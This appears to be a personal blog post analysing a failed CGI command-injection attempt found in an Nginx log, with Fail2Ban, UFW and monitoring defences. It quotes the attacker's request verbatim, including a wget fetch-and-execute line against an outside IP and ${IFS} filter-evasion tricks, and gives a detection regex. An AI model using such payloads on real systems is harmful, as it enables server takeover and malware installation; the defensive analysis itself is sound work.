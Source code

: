 ```yaml
---
slug: cgi-injection-log-analysis
title: A Technical Profile of CGI Attacks
authors: Z. Yuan
image: /en/img/2025/0430.jpg
tags: [security, fail2ban, ufw, log-analysis]
description: An analysis of CGI command injection attacks.
---
```


My server was attacked again.

Every day, it seems, the world is full of malice.

<!-- truncate -->

## What is CGI?

Common Gateway Interface (CGI) is an ancient protocol that dates back to 1993. Back then, static webpages were the norm, and CGI was seen as a magical solution for creating "dynamic content."

Its operation is simple and crude:

1. The browser sends an HTTP request.
2. The web server recognizes the path `/cgi-bin/` and knows it needs to "do something."
3. It places the Query String, Header, and other information into environment variables.
4. Then, it forks an external program (like Perl, Bash, or C) to directly handle those variables.
5. The program outputs an HTTP response via STDOUT.
6. The process ends, and waits for the next request to spawn a new one.

The advantage is its universality: any language can be used, as long as it can run on the OS.

The disadvantages, however, are plentiful:

- One request spawns one process, leading to poor performance and high server load.
- Environment variables are unprotected and vulnerable to command injection.
- Executables are placed in public paths, essentially exposing them.
- Process permissions are the same as the web server’s; with a simple mistake, an attacker can take over.

Today, CGI has been replaced by more secure and efficient systems like PHP-FPM, FastCGI, and WSGI.

However, it still survives in some legacy systems and has become a hunting ground for attackers.

## Signs of Attack

While routinely checking Nginx’s error log, I found the following anomaly:

```log
2025-04-28 14:21:36,297 fail2ban.filter [1723]: WARNING Consider setting logencoding…

b'2025/04/28 14:21:36 [error] 2464#2464: *7393

open() "/usr/share/nginx/html/cgi-bin/mainfunction.cgi/apmcfgupload"
failed (2: No such file or directory),

client: 176.65.148.10,
request: "GET /cgi-bin/mainfunction.cgi/apmcfgupload?session=xxx…0\xb4%52$c%52$ccd${IFS}/dev;wget${IFS}http://94.26.90.205/wget.sh;${IFS}chmod${IFS}+x${IFS}wget.sh;sh${IFS}wget.sh HTTP/1.1",
referrer: "http://xxx.xxx.xxx.xxx:80/cgi-bin/…"\n'
```

Pay attention to this line:

```log
wget${IFS}http://94.26.90.205/wget.sh;
```

This is not a typo but **blatant command injection**.

The attacker uses the CGI parameter field to try and execute the following steps:

1. Download `wget.sh`.
2. Grant execution permissions.
3. Immediately execute the script.

These malicious scripts come in various forms, with common behaviors including:

- Adding backdoor accounts, implanting SSH Keys.
- Dropping mining programs (such as `xmrig` or `kdevtmpfs`).
- Modifying crontab to ensure the script reactivates upon reboot.
- Disabling firewalls and security monitoring.

Once compromised, your server could be working harder than you, with the profits flowing into someone else’s pocket.

## Breakdown of the Attack Method

These attacks generally follow these steps:

- **Scanning**: `GET /cgi-bin/*.cgi` — Randomly probing to find alive CGI scripts.
- **Injection**: Using techniques like `%52$c` and `${IFS}` to bypass input filtering and string matching.
- **Downloading**: `wget http://...` to fetch the malicious script, often hosted on bare machines or compromised servers.
- **Execution**: `chmod +x && sh` — Relaxing permissions, executing the script immediately, all in one go.

Here are two common techniques used:

- `%52$c`: A `printf` formatting trick originally designed to operate on the stack. While it doesn’t trigger overflow in this case, it bypasses basic keyword matching filters.
- `${IFS}`: The Internal Field Separator in Bash, which by default is a space. By writing a space as `${IFS}`, attackers can evade filters that only target spaces.

## Defense Strategies

No defense is foolproof, but you can make it harder for attackers to succeed by forcing them to take longer, more indirect paths, thus significantly reducing the risks.

### 1. Disable CGI Modules

```bash
# Apache example
sudo a2dismod cgi
sudo a2dismod php7.4

# Nginx does not natively support CGI, avoid installing fcgiwrap
```

### 2. Configure Notification Mechanism

```bash title="/etc/fail2ban/filter.d/nginx-cgi.conf"
[Definition]
failregex = <HOST> -.*GET .*cgi-bin.*(;wget|curl).*HTTP
ignoreregex =
```

```ini title="/etc/fail2ban/jail.d/nginx-cgi.local"
[nginx-cgi]
enabled  = true
port     = http,https
filter   = nginx-cgi
logpath  = /var/log/nginx/error.log
maxretry = 3
bantime  = 6h
action   = %(action_mwl)s   # Includes email notification + whois query + log summary
```

### 3. Basic Firewall Configuration

```bash
sudo ufw default deny incoming
sudo ufw allow 22/tcp comment 'SSH'
sudo ufw allow 80,443/tcp comment 'Web'
sudo ufw enable
```

Don't forget to configure limits for IPv6 as well.

### 4. System Monitoring

| Feature                              | Tool Name                | Installation Method          |
| ------------------------------------ | ------------------------ | ---------------------------- |
| Real-time Monitoring & Alerts        | **Netdata**              | `apt install netdata`        |
| Log Analysis & Traffic Visualization | **GoAccess**             | `apt install goaccess`       |
| SOC Defense Framework                | **Wazuh** / **CrowdSec** | Official installation script |

- **CrowdSec**: An evolution of Fail2Ban, with community blacklists and firewall-bouncer plugins.
- **Wazuh**: An enhanced version of OSSEC, integrated with the Elastic Stack for a full visual dashboard.

## Conclusion

Not finding any anomalies doesn't mean you're safe.

Only by establishing observation baselines and regularly reviewing logs can you detect and handle issues as soon as they arise.

This time, the CGI attack "failed," not because the attacker was inept, but because I took a few extra steps: disabled modules, set up firewalls, and configured Fail2Ban.

> **The essence of cybersecurity is never about "Are you the target?" but rather, "Are you exposed to risk?"**

From the moment you connect to the internet, every machine silently participates in a global scanning lottery. To avoid "winning" the lottery, you can’t just rely on luck — you need daily preparation and vigilance.

This time, the unwelcome guest came from afar. I happened to be awake, and I had locked the door.

I hope you are too.
